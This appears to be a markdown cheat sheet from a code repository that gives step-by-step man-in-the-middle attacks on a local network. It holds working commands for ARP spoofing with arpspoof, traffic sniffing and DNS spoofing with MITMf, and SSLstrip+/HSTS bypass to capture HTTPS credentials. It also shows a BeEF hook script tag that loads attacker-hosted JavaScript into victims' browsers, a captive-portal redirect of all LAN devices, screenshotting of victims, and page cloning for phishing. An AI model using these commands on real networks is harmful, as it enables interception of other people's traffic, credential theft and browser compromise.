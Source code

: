 # Man in the middle attack

## Tables des matière
 - [ARP protocol](#ARP-protocol)
 - [Manual ARP spoofing](#Manual-ARP-spoofing)
 - [HTTP trafic sniffing](#HTTP-trafic-sniffing)
 - [DNS spoofing](#DNS-spoofing)
 - [HTTPS credentials sniffing](#HTTPS-credentials-sniffing)
 - [Hooking browsers with BEEF](#Hooking-browsers-with-BEEF)
 - [Some stuff you can do with mitmf](#Some stuff-you-can-do-with-mitmf)
 - [Cloning any webpage](#Cloning-any-webpage)
 - [Ettercap](#Ettercap)

### ARP protocol
	
Discover MAC adresses of an IP adress.

Show the CAM (MAC adress table) : `arp -a`

The CAM is update when you ping a IP in your LAN.
	
**Scapy** : a python program able to forge or decode packets of a wide number of protocols, send them on the wire, capture them, store or read them using pcap files, match requests and replies, and much more. 

### Manual ARP spoofing

Open tilix in order to have multiple terminals.

You must be able to forward packets between the victim and the router `echo 1 > /proc/sys/net/ipv4/ip_forward`

Let the router thinks that you have de MAC adress of the victim. `arpspoof -i <interface> -t <router_ip> <victim_ip>`

Let the victim thinks that you have de MAC adress of the of the router. `arpspoof -i <interface> -t <victim_ip> <router_ip>`

You can launch driftnet in order to see what pictures the victim is looking at.

### HTTP trafic sniffing

Use **MITMf** : `./mitmf.py --spoof --arp --gateway <gateway_ip> --targets <targets_ip>`

You are able to see which http web site the targets are visiting.

### DNS spoofing

DNS configuration is in `MITMf/confif/mitmf.conf` file.

Enter a domain name HTTP domain on which you want to perform the attack (category DNS ipv4 queries)

Use the parameter `--dns` in addition when you launched mitmf.py

When the victim go on the http website, he is redirected on the server that you specify in `mitmf.conf`
	
### HTTPS credentials sniffing 

Go to `mitmf.conf` and do your configuration on SSLstrip+ category

Use the parameter `--hsts` in addition when you launched mitmf.py

### Hooking browsers with BEEF

Start the beef-xss program `beef-xss`

Go to `http://127.0.0.1:3000/ui/panel` -> authenticate yourself with user/password

Create a fake html file in your own http server. 

Add `<script src="http://<your_ip_address>:3000/hook.js"></script>` between the two <head> and </head> tags  

When someone goes to the page, he is executing the script and you are able to see the target machine ip on the graphical beef application. If your click on the IP adress, you can perform lot's of attack against him if his browser is outdated.

In order to have all the devices connected to your LAN you can type : `./mitmf.py -i <interface> --spoof --arp --gateway <gateway_ip> --captive --portalurl http://<your_server_ip_adress>`

If you don't specify a particular target, when one of the LAN device request a page on Internet, he will be redirected to your server, he will ran the script and you can see it in your  beef application.

### Some stuff you can do with mitmf

You can specify the argument `--screen --interval <num_sec>` to screenshot the web browser every 20 seconds for example. Each screen go to the log/ folder.

You can specify the argument `--upsidedownternet` to rotate every picture of the victim current http page.

Key looger, shell sock...

### Cloning any webpage

Right click --> Save Page As 

Move the files (and folders) in `/var/www/html`, rename the main .html by index.html in apache2

### Ettercap

Program useful for mitm attack.
	 

